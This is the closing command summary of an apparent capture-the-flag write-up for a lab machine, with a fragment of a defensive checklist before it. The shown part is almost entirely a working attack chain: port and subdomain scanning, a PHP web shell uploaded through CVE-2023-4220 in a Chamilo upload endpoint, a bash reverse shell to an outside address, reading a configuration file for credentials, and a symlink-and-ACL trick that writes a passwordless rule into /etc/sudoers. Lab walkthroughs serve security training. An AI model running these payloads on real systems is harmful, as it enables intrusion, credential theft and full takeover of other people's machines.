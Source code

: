                 <i class="fas fa-check text-green-500 mt-1"></i>
                <span>Monitor critical system file modifications</span>
            </li>
        </ul>
    </div>
</div>

---

## 📝 Command Summary

```bash
# Network reconnaissance
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d'/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23

# Subdomain fuzzing
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ \
     -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -t 200 -ic -fw 18

# RCE Upload via CVE-2023-4220
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

# Reverse shell
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'

# Shell stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160

# Configuration file enumeration
cat /var/www/chamilo/app/config/configuration.php

# SSH connection
ssh mtz@permx.htb

# Sudo ACL exploitation
ln -s /etc/sudoers /home/mtz/root
sudo /opt/acl.sh mtz rw /home/mtz/root
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
sudo bash
```

---
